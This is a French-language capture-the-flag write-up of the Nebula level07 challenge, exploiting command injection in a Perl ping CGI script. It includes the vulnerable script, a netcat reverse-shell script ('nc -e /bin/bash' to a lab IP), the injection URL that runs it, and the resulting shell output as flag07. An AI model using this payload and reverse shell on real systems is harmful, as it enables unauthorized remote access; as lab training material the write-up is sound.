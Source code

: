 Donc le `index.cgi` vu plus tôt sert seulement d'indice. Le vrai script est chez `flag07` :

```perl
level07@nebula:~$ cat /home/flag07/index.cgi 
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
        $host = $_[0];

        print("<html><head><title>Ping results</title></head><body><pre>");

        @output = `ping -c 3 $host 2>&1`;
        foreach $line (@output) { print "$line"; } 

        print("</pre></body></html>");

}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

Il y a de toute évidence une injection de commande via le paramètre `Host`. J'ai tenté une première exécution mais elle n'aboutissait pas, peut être à cause des espaces. J'ai préféré créer un script sur le système pour l'appeler depuis le CGI :

```bash
level07@nebula:~$ cat > /tmp/revshell
#!/bin/bash
/bin/nc.traditional -e /bin/bash 192.168.56.1 4444
^C
level07@nebula:~$ chmod 755 /tmp/revshell
```

Pour l'exécuter je coupe la commande avec des `&` :

`http://192.168.56.97:7007/index.cgi?Host=%26/tmp/revshell%26`

Et j'obtiens bien mon reverse shell :

```bash
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:49509.
id
uid=992(flag07) gid=992(flag07) groups=992(flag07)
getflag
You have successfully executed getflag on a target account
^C
```
